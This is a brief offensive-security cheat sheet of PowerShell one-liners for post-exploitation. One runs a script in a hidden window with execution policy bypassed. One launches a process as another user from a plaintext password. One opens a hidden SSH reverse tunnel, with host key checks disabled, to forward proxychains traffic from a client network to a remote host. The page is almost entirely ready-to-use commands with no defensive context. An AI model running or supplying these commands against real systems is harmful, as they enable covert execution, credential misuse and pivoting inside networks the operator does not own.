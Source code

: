 ### Start and creates a new process (detached)
```
Start-Process -wi 1 -FilePath "cmd" -ArgumentList "/c type <powershellScript> | powershell -WindowStyle Hidden -exec bypass"
```

### Start process as another user (-wi 1 to minimize window pop up)
```
$scp = ConvertTo-SecureString '<password>' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $scp); start-process -wi 1 -FilePath "cmd.exe" -ArgumentList "/c <command>" -Credential $cred
```

### Forward proxychains traffic into client network, will provoce short opening of a powershell window
```
Start-Process -wi 1 -FilePath "powershell" -ArgumentList " -w hidden -c ssh -o 'StrictHostKeyChecking=no' -i .\<privateKey> -N -R 9050 <user>@<rhost>"
```

